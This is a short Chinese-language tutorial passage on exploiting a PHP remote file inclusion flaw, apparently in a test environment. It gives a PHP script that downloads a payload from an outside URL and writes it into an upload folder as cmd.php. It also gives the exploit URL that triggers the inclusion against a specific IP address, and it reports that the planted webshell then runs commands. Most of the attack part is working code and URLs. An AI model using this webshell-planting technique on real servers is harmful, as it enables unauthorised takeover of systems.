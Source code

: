 ![](https://ws1.sinaimg.cn/large/006Vib6xly1fpcobmpfu0j30xz09j0wr.jpg)

我们可以选择图片中的upload文件夹

```Php
<?php
  $f = file_get_contents("http://example.com/cmd.txt"); //打开指定路径的文件流
  $ff = fopen("./upload/cmd.php", "a"); //寻找一个可以写入的目录，创建一个文件
  fwrite($ff, $f); //把前面打开的文件写到创建的文件里
  fclose($ff); //关闭保存文件
?>
```

执行之前，我们可以先去看一下upload目录下的文件

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpcoj5xy8qj30xy02m41j.jpg)

执行url：

`http://112.74.35.205/test.php?file=http://112.74.35.205/create.php`

执行以后，没有任何返回结果，但是我们再去查看upload

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpcoi1qmnmj30xz03qadb.jpg)

发现多了一个`cmd.php`，成果上传了一个包含webshell的php脚本

试着去包含一下我们写入的这个文件

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpcomqihacj30xz03gad8.jpg)

命令成功执行
